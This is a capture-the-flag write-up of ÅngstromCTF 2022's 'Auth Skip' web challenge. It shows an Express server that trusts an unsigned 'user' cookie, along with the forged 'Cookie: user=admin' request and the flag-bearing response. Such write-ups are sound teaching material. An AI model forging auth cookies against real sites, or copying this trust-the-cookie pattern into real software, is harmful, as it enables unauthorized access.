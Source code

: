 ```yaml
---
Title: ÅngstromCTF
Date: 2022-05-05 00:00:00 +0000
categories: [Writeups, Ctf]
tags: [ctf, web, cookie, auth]
---
```


# Auth Skip

Goal is to do the legendary "Auth Skip", like in true speedrunner fashion, finding an exploit, getting those gold splits, conquering the leaderboard!

Given the source code, i began to look at the logic of the cookies used for authentication.

```javascript
const express = require("express");
const path = require("path");
const cookieParser = require("cookie-parser");

const app = express();
const port = Number(process.env.PORT) || 8080;

const flag = process.env.FLAG || "actf{placeholder_flag}";

app.use(express.urlencoded({ extended: false }));
app.use(cookieParser());

app.post("/login", (req, res) => {
    if (
        req.body.username !== "admin" ||
        req.body.password !== Math.random().toString()
    ) {
        res.status(401).type("text/plain").send("incorrect login");
    } else {
        res.cookie("user", "admin");
        res.redirect("/");
    }
});

app.get("/", (req, res) => {
    if (req.cookies.user === "admin") {
        res.type("text/plain").send(flag);
    } else {
        res.sendFile(path.join(__dirname, "index.html"));
    }
});

app.listen(port, () => {
    console.log(`Server listening on port ${port}.`);
});
```

The vuln lies in the following lines:

```javascript
    } else {
        res.cookie("user", "admin");
        res.redirect("/");
```
{: .nolineno }

We can set our cookie to something like, `user=admin`  and we can ommit the password, as it doesn't require us to provide one.

Providing the username cookie, we are then redirected to the flag at "/"

```javascript
app.get("/", (req, res) => {
    if (req.cookies.user === "admin") {
        res.type("text/plain").send(flag);
    } else {
        res.sendFile(path.join(__dirname, "index.html"));
    }
```
{: .nolineno }

--- 

## Exploit: Legendary Auth Skip
In burp i intercepted :

```http
GET / HTTP/2
Host: auth-skip.web.actf.co
Sec-Ch-Ua: [...]
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: [...]
Accept: [...]
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
```
{: .nolineno }

Simply add the cookie to the request

```
Cookie: user=admin
```
{: .nolineno }

et voilà !

```
HTTP/2 200 OK
Date: Wed, 04 May 2022 14:44:26 GMT
Content-Type: text/plain; charset=utf-8
Content-Length: 54
X-Powered-By: Express
Etag: W/"36-QSBEGde8h39PljsFBY/epRs/oqo"
Strict-Transport-Security: max-age=15724800; includeSubDomains

actf{passwordless_authentication_is_the_new_hip_thing}
```
{: .nolineno }

### Aut viam inveniam aut faciam    
